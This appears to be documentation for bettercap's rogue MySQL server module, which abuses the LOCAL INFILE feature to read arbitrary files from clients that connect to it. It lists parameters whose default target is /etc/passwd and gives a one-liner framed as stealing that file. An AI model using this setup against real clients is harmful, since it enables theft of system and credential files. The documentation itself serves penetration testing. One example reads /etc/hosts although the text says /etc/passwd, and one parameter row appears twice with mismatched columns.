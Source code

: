 ```yaml
---
title: "mysql.server (rogue)"
date: 2019-02-25T13:25:31+01:00
draft: false
weight: 4
---
```


A rogue MySQL server that can be used to exploit [LOCAL INFILE and read arbitrary files](/modules/ethernet/spoofers/) from the client.

### Commands

#### `mysql.server on`

Start mysql server.

#### `mysql.server off`

Stop mysql server.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `mysql.server.infile` | `/etc/passwd` | File you want to read. UNC paths are also supported. | 
| `mysql.server.outfile` | | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.address` |  `<interface address>` | Address to bind the mysql server to. |
| `mysql.server.port` | `3306` | Port to bind the mysql server to. |
| `mysql.server.outfile` | If filled, the INFILE buffer will be saved to this path instead of being logged. | 

**Examples**

One liner to start the server and steal /etc/passwd from clients connecting to your Rogue MySQL server

    $ sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"

Now connect to your MySQL server and observe the file output on the Bettercap terminal

    $ mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile

